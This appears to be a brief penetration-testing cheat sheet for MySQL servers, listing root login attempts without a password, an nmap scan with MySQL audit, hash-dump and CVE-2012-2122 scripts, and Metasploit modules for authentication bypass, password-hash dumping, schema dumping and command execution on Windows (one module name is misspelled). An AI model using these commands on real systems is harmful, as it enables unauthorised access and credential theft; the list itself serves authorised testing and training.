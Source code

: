 ## Remote 

'''
    mysql -h <Hostname> -u root
    mysql -h <Hostname> -u root@localhost
'''

## Enumeration

'''
    nmap -sV -p 3306 --script mysql-audit,mysql-databases,mysql-dump-hashes,mysql-empty-password,mysql-enum,mysql-info,mysql-query,mysql-users,mysql-variables,mysql-vuln-cve2012-2122 <IP>
    msf> use auxiliary/scanner/mysql/mysql_version
    msf> use uxiliary/scanner/mysql/mysql_authbypass_hashdump
    msf> use auxiliary/scanner/mysql/mysql_hashdump #Creds
    msf> use auxiliary/admin/mysql/mysql_enum #Creds
    msf> use auxiliary/scanner/mysql/mysql_schemadump #Creds 
    msf> use exploit/windows/mysql/mysql_start_up #Execute commands Windows, Creds
'''